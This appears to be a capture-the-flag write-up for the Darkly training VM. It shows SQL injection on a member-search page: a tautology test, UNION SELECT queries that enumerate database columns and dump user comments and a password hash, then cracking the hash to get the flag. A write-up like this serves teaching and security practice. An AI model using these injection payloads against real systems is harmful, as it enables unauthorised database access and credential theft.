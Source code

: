 # SQL Injection - Members Search

See [SQL injection Images](https://github.com/anyashuka/Darkly/tree/master/SQL_Injection_Images) for SQL Injection description, use & prevention.


## Exploit

Go to page:

{VM_IP}/index.php?page=member

We're going to be doing the same thing here as we did in the SQL image search injection. 
Insert the following commands into the image search bar:


### Test if vulnerable to SQL Injection

```1 OR 1=1```

... we get all the results because every row is considered true.


### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here we find:

* First name: users,
Surname : user_id
* First name: users,
Surname : first_name
* First name: users,
Surname : last_name
* First name: users,
Surname : town
* First name: users,
Surname : country
* First name: users,
Surname : planet
* First name: users,
Surname : Commentaire
* First name: users,
Surname : countersign


### Look at the comment below each user

```1 OR 1=1 UNION SELECT first_name, commentaire FROM users```

Here we find:

* First name: Flag,
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


### Find the countersign

```1 OR 1=1 UNION SELECT first_name, countersign FROM users```

* First name: Flag,
Surname : 5ff9d0165b4f92b14994e5c685cdce28

[md5 decrypt](https://md5decrypt.net)(5ff9d0165b4f92b14994e5c685cdce28) = FortyTwo
[sha256 encrypt](https://md5decrypt.net/Sha256)(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

flag = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
